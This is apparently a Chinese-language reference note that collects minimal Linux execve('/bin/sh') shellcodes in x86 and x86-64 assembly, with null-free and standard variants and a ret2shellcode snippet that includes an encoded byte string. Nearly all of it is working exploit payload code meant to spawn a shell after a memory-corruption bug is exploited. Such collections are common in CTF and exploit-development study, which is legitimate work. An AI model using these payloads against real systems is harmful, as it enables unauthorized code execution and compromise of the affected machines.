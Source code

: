 # Linux ShellCode总结

在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写。

## 32位

### 有"\x00"最短 20 byte

```assembly
xor ecx,ecx               
mul ecx                   
mov al,0xb                
push 0x68732f             
push 0x6e69622f           
mov ebx,esp               
int 0x80
```

### 无"\x00"最短 21 byte

```assembly
xor ecx,ecx
mul ecx
push eax
mov al,0xb
push 0x68732f2f   
push 0x6e69622f   
mov ebx,esp
int 0x80
```

### 标准shellcode 23 byte

```assembly
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
mov al,0xB
int 0x80
```

### 此外

```assembly
push 0x68732f	;push '/sh'
push 0x6e69622f	;push '/bin'
mov ebx, esp	;ebx='/bin/sh'
xor edx, edx	;edx=0
xor ecx, ecx	;ecx=0
mov eax, 0xb	eax=0xb
int 0x80
```

## 64位

### 有"\x00"最短 22 byte

```assembly
xor rsi,rsi
mul esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

### 无"\x00" 最短23 byte

```assembly
xor rsi,rsi
mul esi
push rax
mov rbx,0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 59
syscall
```

### 标准shellcode 31 byte

```assembly
xor    rdi,rdi
xor    rsi,rsi
xor    rdx,rdx
xor    rax,rax
push   rax
mov rbx,0x68732f2f6e69622f
push   rbx
mov    rdi,rsp
mov    al,0x3b
syscall
```

### ret2shellcode

```assembly
shellcode = '''
xor rax,rax
xor rdi,rdi
mov rdi ,0x68732f6e69622f
push rdi              
push rsp                 
pop rdi
xor rsi,rsi
xor rdx,rdx
push 0x3b   
pop rax
syscall
'''
# shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05'
```

### 此外

```assembly
mov rbx, '/bin/sh'	;将'/bin/sh'赋值给rbx
push rbx	;将rbx的值，即'/bin/sh'压入栈中
push rsp	;将esp的值压入栈中
pop rdi		;将esp赋值给rdi，rdi='/bin/sh'
xor rsi, rsi	;rsi=0
xor rdx, rdx	;rdx=0
mov rax, 0x3b	;rax=0x3b
syscall
```

